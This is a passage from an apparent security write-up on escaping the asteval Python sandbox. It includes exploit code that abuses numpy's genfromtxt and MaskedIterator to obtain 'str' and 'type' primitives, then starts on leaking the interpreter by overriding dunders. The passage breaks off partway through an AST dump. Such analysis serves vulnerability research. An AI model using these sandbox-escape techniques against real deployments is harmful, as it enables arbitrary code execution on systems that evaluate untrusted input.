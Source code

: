 Note that `self.dataiter` and `self.ma` are user-controlled. Thus, if we can make it so that the `.view` method of the object returned by the `__getitem__` call on `self.dataiter` either returns its argument, or e.g. adds its argument to some global list, this allows us to access the result of `type`. This would give us a useable `type` primitive.

At this point we need to figure out how to get a `MaskedIterator` instance from `genfromtxt`.

In the `numpy` code there is only one place where a `MaskedIterator` instance is created, in `MaskedArray.flat`.

If we look at the function definition of `genfromtxt`, we see the `usemask` argument. Alternatively we can search for useages of `MaskedArray` and end up at this argument.

Putting this into practice:
```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]
# Now str is the type `str`

mf.ma = str
t = mf[0]
# Now t is the type `type`
```

Having a type primitive, some of the logical next steps to look are instances of `asteval` classes that are available from within the sandbox, such as `Procedure`. User-defined functions within the sandbox are turned into `Procedure` objects in `asteval`.

In `asteval`, the sandbox is implemented by having the source code parsed into an AST using `ast.parse` and then having evaluating this AST using a node visitor pattern, with functions for nodes to implement the effects that executing that node should have, with an attempt at filters on what effects to allow.

### Overriding class level dunders to leak the interpreter object:

One of the main restrictions in `asteval` is the one preventing us from getting arbitrary attributes. In traditional pyjails it is common to traverse attributes of objects to eventually end up at powerful objects, which is why `asteval` forbids some of these.
Let's see how attributes are parsed via `ast`:
```python
>>> print(ast.dump(ast.parse("a.a"), indent=" "))
Module(
   body=[
      Expr(
         value=Attribute(
            value=Name(id='a', ctx=Load()),
            attr='a',
            ctx=Load()))],
   type_ignores=[])
>>> print(ast.dump(ast.parse("a.a = 0"), indent="   "))
Module(
   body=[
      Assign(
         targets=[
            Attribute(
               value=Name(id='a', ctx=Load()),
               attr='a',
```